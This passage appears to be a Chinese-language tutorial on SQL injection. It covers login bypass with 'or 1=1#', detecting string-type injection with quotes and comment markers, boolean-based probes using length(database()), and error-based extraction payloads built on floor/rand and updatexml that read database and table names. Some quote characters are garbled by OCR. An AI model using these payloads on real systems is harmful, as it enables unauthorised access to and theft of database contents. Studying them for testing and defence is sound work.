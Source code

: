 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
测试步骤：

（1） 加单引号：select * from table where name=’admin’’

由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加 ’and 1=1 此时sql 语句为：select * from table where name=’admin’ and 1=1 ,也无法进行注入，还需要通过注释符号将其绕过；

因此，构造语句为：select * from table where name =’admin’ and 1=1--+ 可成功执行返回结果正确；

（3） 加and 1=2-- 此时sql语句为：select * from table where name=’admin’ and 1=2 –-+ 则会报错

如果满足以上三点，可以判断该url为字符型注入。

### 按注入语法分类

1.boolean-based

页面只返回True和False两种类型页面。

	Length（）函数 返回字符串的长度
	Substr（）截取字符串
	Ascii（）返回字符的ascii码
	sleep(n)：将程序挂起一段时间 n为n秒
	if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

	'and (length(database()))>10 --+
	当前数据库database（）的长度大于10，返回true页面，否则FALSE页面


	

2.error-based

[**报错型sql注入原理分析**](https://blog.51cto.com/wt7315/1891458)

使用能触发SQL报错机制的注入语句

三种报错注入常用的语句：

(1). 通过floor报错

	and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
其中payload为你要插入的SQL语句

需要注意的是该语句将 输出字符长度限制为64个字符

	页面会报错：Duplicate entry '数据库名1' for key 'group_key'

**floor函数返回小于等于该值的最大整数**

(2). 通过updatexml报错

	and updatexml(1,payload,1)
同样该语句对输出的字符长度也做了限制，其最长输出32位

并且该语句对payload的返回类型也做了限制，只有在payload返回的不是xml格式才会生效

	1',1,updatexml(1,concat(0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a),1))#

	1',1,updatexml(1,concat(0x3a,(select database()),0x3a),1))#
```